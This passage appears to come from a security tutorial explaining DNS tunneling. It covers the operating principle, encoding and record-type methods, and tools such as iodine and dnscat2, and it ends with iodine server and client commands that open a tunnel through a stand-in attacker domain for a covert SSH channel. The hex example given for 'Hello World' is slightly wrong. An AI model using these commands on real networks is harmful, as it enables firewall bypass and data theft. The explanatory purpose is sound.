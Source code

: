 ```python
        except:
            pass  # Continue even if it fails
```

## DNS Tunneling

DNS tunneling is a technique that uses the DNS protocol as a communication channel to transmit data from other protocols (HTTP, SSH, etc.). This goes beyond simple data exfiltration to enable bidirectional communication.

**Operating principle**:
1. The client encodes the data to be transmitted and includes it as part of a DNS query.
2. This query is forwarded to an authoritative DNS server controlled by the attacker.
3. The server extracts data from the query and returns response data re-encoded as a DNS response.
4. This request-response cycle repeats continuously to form a communication channel.

**Key features**:
* **Firewall bypass**: Most networks allow DNS traffic (UDP/53, TCP/53), enabling external communication even in restricted network environments
* **Stealth**: Disguised as normal DNS traffic to evade detection
* **Slow speed**: Limited bandwidth due to DNS protocol characteristics (typically a few Kbps)
* **High overhead**: Requires many DNS packets relative to the original data

**Implementation methods**:
1. **Domain encoding method**:
   ```
   # Original data: "Hello World"
   # After encoding: 
   68656c6c6f776f726c64.tunnel.example.com
   ```

2. **Record type utilization**:
   * **TXT records**: Can contain more data
   * **CNAME/MX/SRV**: Various record types to evade detection
   * **NULL records**: Advantageous for binary data transmission

3. **Fragmentation**: Splitting large data into multiple DNS queries and reassembling

**Major DNS tunneling tools**:
* **iodine**: Tunnels IP traffic within DNS packets
* **dnscat2**: Provides command/control channel via DNS
* **DNSCat**: Offers data compression and encryption capabilities

**iodine tunneling example**:
```bash
# Server-side setup (attacker server)
iodined -f -c -P password 10.0.0.1 tunnel.attacker.com

# Client-side setup (internal network system)
iodine -f -P password tunnel.attacker.com

# SSH connection example after tunnel setup
ssh user@10.0.0.1
```
